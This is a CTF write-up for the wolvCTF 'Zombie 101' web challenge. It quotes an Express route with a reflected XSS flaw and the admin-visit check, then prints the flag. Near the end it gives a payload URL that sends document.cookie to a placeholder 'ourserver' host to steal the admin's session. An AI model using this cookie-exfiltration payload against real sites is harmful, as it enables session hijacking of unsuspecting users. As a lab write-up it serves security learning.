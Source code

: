 ```yaml
---
title: wolvCTF Zombie 101
type: page
description: writeups of wolvCTF.
topic: ctf
Author: bluesam
date: 2023-03-19
---
```

# Zombie 101 - Web
## Description 

Can you survive the Zombie gauntlet!?

First in a sequence of four related challenges. Solving one will unlock the next one in the sequence.

They all use the same source code but each one has a different configuration file.

This first one is a garden variety “steal the admin’s cookie”.

Good luck!

------------------------------------------

Reflected XSS on : https://zombie-101-tlejfksioa-ul.a.run.app/zombie?show=xsshere

Following vulnerable code :
```javascript
app.get('/zombie', function(req, res) {
    const show = req.query.show
    if (!show) {
        res.send('Hmmmm, you did not mention a show')
        return
    }

    const rating = Math.floor(Math.random() * 3)
    let blurb
    switch (rating) {
        case 2:
            blurb = `Wow, we really liked ${show} too!`
            break;
        case 1:
            blurb = `Yeah, ${show} was ok... I guess.`
            break;
        case 0:
            blurb = `Sorry, ${show} was horrible.`
            break;
    }
    res.send(blurb)
})
```
We can send report to admin who will trigger our link only if the link hostname strictly match `zombie-101-tlejfksioa-ul.a.run.app.`

index.js line 30

```javascript
 if (parsedURL.hostname !== req.hostname) {
        return `Please provide a url with a hostname of: ${escape(req.hostname)}  Hmmm, I guess that will restrict the submissions. TODO: Remove this restriction before the admin notices and we all get fired.` 
    }
```

Endpoint for report is https://zombie-101-tlejfksioa-ul.a.run.app/visit?url=

with all thoses informations we can craft our payload and steal the admin cookies. Our final payload :

https://zombie-101-tlejfksioa-ul.a.run.app/visit?url=https://zombie-101-tlejfksioa-ul.a.run.app/zombie?show=window.location.href="http://ourserver/?c=”.concat(document.cookie);

here the flag : wctf{c14551c-4dm1n-807-ch41-n1c3-j08-93261}
